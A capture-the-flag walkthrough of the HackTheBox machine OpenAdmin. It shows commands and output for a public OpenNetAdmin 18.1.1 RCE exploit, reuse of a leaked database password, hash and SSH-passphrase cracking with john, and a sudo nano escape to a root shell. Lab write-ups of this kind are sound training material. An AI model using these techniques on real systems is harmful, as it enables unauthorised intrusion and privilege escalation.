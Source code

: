 ```yaml
---
tags:
  - htb
revisit: false
---
```

# HackTheBox: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Spoiler Summary
> This Linux server is running a vulnerable version of [OpenNetAdmin](https://opennetadmin.com/). Password re-use allows lateral movement from the web user (`www-data`) to another admin user, `jimmy`. A web server bound to `localhost` provides access to another admin user's private key. Privilege escalation is then possible via Sudo, granting root access to `nano` which is [trivially escapable](https://gtfobins.github.io/gtfobins/nano/).

## Services

### TCP

First, a [port scan with `nmap`](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing for directories uncovers `/music`, and a link from there led to `/ona`:

![](_/htb-openadmin-20240701-1.png)

This is [OpenNetAdmin](https://opennetadmin.com/), with plenty of attack surface:

> OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. A full CLI interface is available as well to use for scripting and bulk work.

## RCE

Here is how I achieved remote code execution (RCE) on the target system.

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

Here's how I was able to accomplish privilege escalation (PE) for full control of the system.

In the server's web root, the file `local/config/database_settings.inc.php` contains database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for users `root` and `joanna`, neither of which worked, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php

jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:

![](_/htb-openadmin-20240701-3.png)

That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:

![](_/htb-openadmin-20240701-2.png)

The credentials `jimmy:Revealed` give us the private key for `joanna`:

![](_/htb-openadmin-20240701-4.png)

There's a passphrase for the private key, and the previously discovered "ninja" password didnt work. So, I used `john` to crack it, which only takes a few seconds:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

Elevating privileges is possible via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv

joanna@openadmin:~$ file /opt/priv
/opt/priv: empty

joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a shell command via `^R^X` and passing `reset; sh 1>&0 2>&0`, which provides an interactive `root` shell.
